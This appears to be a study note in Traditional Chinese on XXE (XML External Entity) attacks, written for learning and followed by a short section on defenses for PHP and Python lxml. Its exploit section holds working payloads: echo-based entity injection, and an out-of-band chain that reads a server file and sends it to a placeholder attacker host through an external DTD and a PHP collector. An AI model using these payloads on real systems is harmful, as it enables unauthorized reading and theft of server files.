 # XXE
*  [Entity](#entity)   
*  [Exploit](#exploit)   
*  [Defense](#defense)  
*  [Reference](#reference)   
   
XML是一種描述資料的語言，跟html很像，但著重於傳輸資料，Case-sensitive。  
```xml
<?xml version=“1.0” encoding=“utf-8”>    // xml的文檔聲明
<!DOCTYPE a[                    // DTD 文檔類型定義
    <!ENTITY .....>
]>
<a>     // 文檔元素
....
</a>
```
其中DTD的觀念以及利用尤為重要  
`XXE-SSRF`中有有回顯及無回顯的練習 

## Entity
在DTD中事先宣告才可以使用實體  
Entity就像定義變數一樣  
1. 內部實體： `<!ENTITY name "value">`  
```xml
<!DOCTYPE pwnch[
  <!ENTITY var "hi">
]>
<root>&var;</root>
```  

2. 外部實體： `<!ENTITY name SYSTEM "URL">`  
```xml
<!ENTITY var SYSTEM "url://.......txt">
<root>&var;</root>
```
新版本2.9.0後預設不解析外部實體  
所以可以用`print "libxml version: ".LIBXML_DOTTED_VERSION."\n";`確定一下  

3. 參數實體： `<!ENTITY %name "value>"`  
```xml
// exp.dtd: <!ENTITY next SYSTEM "file://.txt">
<!DOCTYPE pwnch[
  <!ENTITY %var SYSTEM "http://...../exp.dtd">
  %var;
]>
<root>&next;</root>
```
引入外部實體時將```exp.dtd```裡的參數給帶了進來  
> 順道提一下，```file:///``` 前兩條是protocol，最後一條是指根目錄

## Exploit
1. 檢測是否有XXE漏洞  
隨便輸入個xml判斷有沒有解析  
2. 有沒有支持DTD引用外部實體
```
<!DOCTYPE ANY [
<!ENTITY % name SYSTEM "url">
%name;
]>
```  
  
3. 有回顯 -> 簡單  
**php 與 XXE**  
```php
$xml = @new SimpleXMLElement($data);
echo $xml->node;
```
```SimpleXMLElement```會讓內容變成list的形式： ```[節點] => '內容'```  
最後一行的```$xml->node```則是取出名為**node**的節點  
因此exploit就會長成 ```<node>&var;</node>``` 這副德性  

4. 沒有回顯 -> 交給 OOB XXE  
那就讓server端主動傳資料給我們吧  
```xml
// 給server端吃的XML
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "你想要的東西">
<!ENTITY % remote SYSTEM "http://domain/xxe.dtd">
%remote;
%all;
%send;
]>
```
xxe.dtd  
```xml
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://domain/test.php?a=%file;'>">
```
test.php的內容  
```php
file_put_contents("test.txt",$_GET['a']);
```
整個流程：server端吃到我給的xml後，解析remote時會將我server上的dtd給引入。  
```xxe.dtd```上有all和send的參數實體，send在被解析時，就會對我server上的test.php發出請求。  
```test.php```會把我想要的資源放入```test.txt```的檔案。剩下的自己看著辦！  

## Defense
```php
// php 
libxml_disable_entity_loader(true);
// python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
以上的方式都可以禁止用戶引用外部實體，或者過濾使用者輸入的關鍵字  
[更詳細的內容可以參考這篇的漏洞修復與防禦](https://thief.one/2017/06/20/1/)

## Reference
* Kaibro's slides  
* [浅谈XXE漏洞攻击与防御](https://thief.one/2017/06/20/1/)
